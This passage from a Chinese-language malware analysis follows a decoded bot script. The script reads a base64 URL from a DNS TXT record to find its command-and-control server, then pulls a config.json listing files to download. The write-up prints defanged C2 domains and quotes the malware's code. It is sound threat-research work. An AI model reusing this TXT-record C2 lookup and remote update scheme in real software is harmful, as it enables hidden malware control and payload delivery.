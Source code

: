 在以与我们解码之前的“start.bin”文件相同的方式解码“load.bin”文件后，我们剩下一个具有板载配置数据的不同脚本:

```
cnf = json.loads("{\"suffix\": \"/my\", \"domain\": \"upd.oyl4b8zhi.life\"}")
DOMAIN = cnf['domain']
SUFFIX = cnf['suffix']
```

稍后在脚本中解析该域，以构建将用于通信的 URL:

```
resolver = dns.resolver.Resolver()
    resolver.nameservers = ['8.8.8.8', '8.8.4.4']
    answers = resolver.query(DOMAIN, 'TXT')
    url = base64.b64decode(answers[0].strings[0]).decode("utf8") + SUFFIX
```

这里发生了一些有趣的事情，解析器正在寻找 TXT 记录，然后似乎期望一个 BASE64 编码的 URL？

域“upd.oyl4b8zhi.life”的 TXT 记录设置为:

```
aHR0cDovL2VmcmNxd3Z2Lnh5ei91cGQ=
```

解码:

```
http://efrcqwvv[.]xyz/upd
```

添加后缀后，我们将只剩下

```
http://efrcqwvv[.]xyz/upd/my
```

从这些 DNS TXT 记录中可以看出这一点:

```
;; QUESTION SECTION:
;upd.cdn-j4v2svnc.biz.  IN TXT;; ANSWER SECTION:
upd.cdn-j4v2svnc.biz. 3600 IN TXT "aHR0cDovL2VmdWphcW5yLnh5ei91cGQ="
```

解码:

```
http://efujaqnr[.]xyz/upd
```

脚本对这些二级域做的第一件事是拉下一个 config.json 文件:

```
{"update":[{"from":"\/files\/rules.ini?","to":"rules.ini","sha1":"d401305618f85e63524cd7393a991d9e32d90b21"},{"from":"\/files\/example.js?","to":"js\\example.js","sha1":"5d4b2d97d2eff59e30c057ea89f435501bd6856a"},{"from":"\/files\/adjts.js?","to":"js\\adjts.js","sha1":"b645d640097f8ef4d95189ad01161c1520addfcf"}],"afterupdate":[]}
```

这些来自 config.json 的文件告诉机器人它可以下载什么文件以及如何在本地存储它们，在这个包中还有一个 Chrome 扩展:
